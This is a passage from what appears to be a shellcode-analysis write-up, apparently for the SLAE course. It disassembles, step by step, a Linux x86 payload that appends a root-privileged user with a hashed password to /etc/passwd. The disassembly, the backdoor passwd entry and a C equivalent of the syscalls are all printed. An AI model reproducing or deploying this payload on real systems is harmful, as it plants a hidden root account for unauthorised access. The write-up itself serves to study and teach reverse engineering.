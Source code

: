 Our call is "call 0x804a08d".  Looking at that address, we see the same thing where the instruction addresses dont seem to fit into what we are expecting.  We can view instructions for the specific address that is being called with the x/i command.  Let's just grab a random number of instructions and see if it catches back up with the proper instructions.
```nasm
gdb-peda$ x/6i 0x804a08d
   0x804a08d <code+77>:	pop    ecx
   0x804a08e <code+78>:	mov    edx,DWORD PTR [ecx-0x4]
   0x804a091 <code+81>:	push   0x4
   0x804a093 <code+83>:	pop    eax
   0x804a094 <code+84>:	int    0x80
   0x804a096 <code+86>:	push   0x1
gdb-peda$
```
As expected, the push 0x4 is where we are lined back up.. The next instructions are:
```nasm
  pop ecx
  mov edx, DWORD PTR [ecx-0x4]
```
We are seeing the call-pop technique here used to push an address on the stack that most likely contains an important value to the shellcode.  Let's take a look at what that value is.. We are planning to write to a file so I am assuming it will be the string for our /etc//passwd file we opened.
```
gdb-peda$ x/s 0x804a06b
0x804a06b <code+43>:	"SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀"
```
There we have it, the entry we will be appending to /etc/passwd.  So now we know that we have our file descriptor from the open saved in ebx, and the string we are appending saved in ecx.

The next instruction is very clever.  Looking at our opcodes for the call instruction, we have E822000000 which translates to:
```
ndisasm> E822000000
E822000000               call dword 0x27
```
Since our string is what we are jumping over, the length of our string is stored as the "22" part of our opcode.  The string is 34 characters in length (including the \n) which translates to 22 hex.  Our next instruction is "mov edx, DWORD PTR \[ecx-0x4\]".  Which points us right at the length of the string!\
Finishing up the syscall, EAX is set to 4 which is write:
```c
ssize_t write(int fd, const void *buf, size_t count); 
```
Our interrupt is called so our two syscalls equate to:\
```c
fd = open('/etc//passwd', O_WRONLY|O_APPEND);
buf = "SLAE:AzrcnzPYlfr2E:0:0::/:/bin/sh\n";
write(fd, buf, 34);
```
The final instructions are straight forward.
```nasm
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```
EAX = 1 which means exit and then the interrupt is called to finish our analysis!
